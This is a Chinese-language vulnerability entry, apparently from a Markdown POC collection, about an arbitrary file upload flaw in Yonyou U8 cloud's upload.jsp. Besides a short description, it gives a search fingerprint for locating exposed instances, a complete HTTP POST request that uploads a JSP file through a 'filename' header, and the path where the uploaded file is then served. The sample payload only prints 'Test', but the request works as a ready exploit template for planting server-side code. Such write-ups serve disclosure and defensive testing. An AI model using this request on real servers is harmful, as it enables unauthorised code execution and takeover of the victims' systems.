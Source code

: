 # 用友 U8 cloud upload.jsp 任意文件上传漏洞

## 漏洞描述

用友 U8 cloud upload.jsp 文件存在任意文件上传漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

用友 U8 cloud

## 网络测绘

"开启U8 cloud云端之旅"

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697868186972-17bbaf78-0023-4136-9e3e-1d2cbb040c78.png)

验证POC

```php
POST /linux/pages/upload.jsp HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
filename: Test.jsp
Accept-Encoding: gzip

<% out.println("Test");%>
```

![img](../../../.vuepress/public/img/1697868208721-60df96f5-0fd0-4c88-99de-d44cb8e81479.png)

```php
/linux/xxx.jsp
```